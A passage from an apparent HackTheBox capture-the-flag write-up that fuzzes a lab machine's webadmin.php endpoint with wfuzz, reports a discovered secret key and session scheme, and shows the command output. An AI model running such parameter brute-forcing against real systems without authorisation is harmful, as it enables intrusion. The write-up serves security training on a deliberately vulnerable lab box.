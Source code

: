 <div class="filename"><span>sites.txt</span></div>

```
# cat sites.txt
twitter
paypal
facebook
hackthebox
```

Long story short, after several rounds of fuzzing, I discovered that the password (a.k.a secret key) is `12345678` and the session (a.k.a identifier or PHPSESSID) is actually the SHA256 digest of my IP address.

With two of the values narrowed down, we can go ahead and fuzz the other two parameters: `action` and `site`.

```
# wfuzz -w actions.txt -w sites.txt --hc 404 "$URL?action=FUZZ&site=FUZ2Z&password=$PW&session=$SESS"
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=FUZZ&site=FUZ2Z&password=12345678&session=d6f6d9ea1aa952064edbb93f22453e96ca29e7fdf042d7a47218d39aac3048bf
Total requests: 16

==================================================================
ID      Response   Lines      Word         Chars          Payload
==================================================================

000001:  C=302      0 L        0 W            0 Ch        "show - twitter"
000002:  C=302      0 L        0 W            0 Ch        "show - paypal"
000003:  C=302      0 L        0 W            0 Ch        "show - facebook"
000004:  C=302      0 L        0 W            0 Ch        "show - hackthebox"
000005:  C=302      5 L        9 W           37 Ch        "list - twitter"
000006:  C=302      5 L        9 W           37 Ch        "list - paypal"
000007:  C=302      5 L        9 W           37 Ch        "list - facebook"
000008:  C=302      6 L       12 W          117 Ch        "list - hackthebox"
000009:  C=200      0 L        2 W           15 Ch        "exec - twitter"
000010:  C=200      0 L        2 W           15 Ch        "exec - paypal"
000011:  C=200      0 L        2 W           15 Ch        "exec - facebook"
000012:  C=200      0 L        2 W           15 Ch        "exec - hackthebox"
000014:  C=302      0 L        1 W            5 Ch        "init - paypal"
000015:  C=302      0 L        1 W            5 Ch        "init - facebook"
000016:  C=302      0 L        1 W            5 Ch        "init - hackthebox"
000013:  C=302      0 L        1 W            5 Ch        "init - twitter"

Total time: 0.978299
Processed Requests: 16
Filtered Requests: 0
Requests/sec.: 16.35491
```
